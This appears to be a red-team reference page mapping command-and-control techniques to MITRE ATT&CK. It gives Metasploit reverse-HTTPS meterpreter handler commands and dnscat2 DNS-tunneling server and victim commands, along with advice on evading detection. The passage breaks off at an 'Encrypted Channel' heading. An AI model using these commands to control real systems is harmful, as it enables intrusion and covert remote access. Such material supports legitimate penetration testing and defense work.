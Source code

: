 ## Command and Control Frameworks

Command and Control (C2) consists of techniques adversaries use to communicate with systems under their control. Several specialized frameworks focus on establishing and maintaining C2 channels.

### Application Layer Protocol (T1071)

This involves using application layer protocols for command and control communications.

#### Web Protocols (T1071.001)

Tools for web-based C2:

**Metasploit HTTP/HTTPS C2**:
```bash
# Set up HTTP handler
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
exploit -j
```

**Specific ATT&CK Mapping**:
- HTTP-based command and control implements T1071.001
- Web protocols blend with normal traffic

**Operational Considerations**:
- Configure realistic HTTP headers and cookies
- Match traffic patterns to legitimate web behavior
- Consider implementing random timing to avoid pattern detection

#### DNS (T1071.004)

Tools for DNS-based C2:

**DNScat2**: Command and control over DNS.
```bash
# Start the server
ruby dnscat2.rb domain.com

# On the victim
./dnscat2 domain.com
```

**Specific ATT&CK Mapping**:
- DNS tunneling implements T1071.004
- DNS communication often bypasses strict firewall controls

**Detection Awareness**:
- Abnormal DNS query volumes may trigger alerts
- Long DNS names might be flagged
- Consider limiting query frequency and size

### Encrypted Channel (T1573)
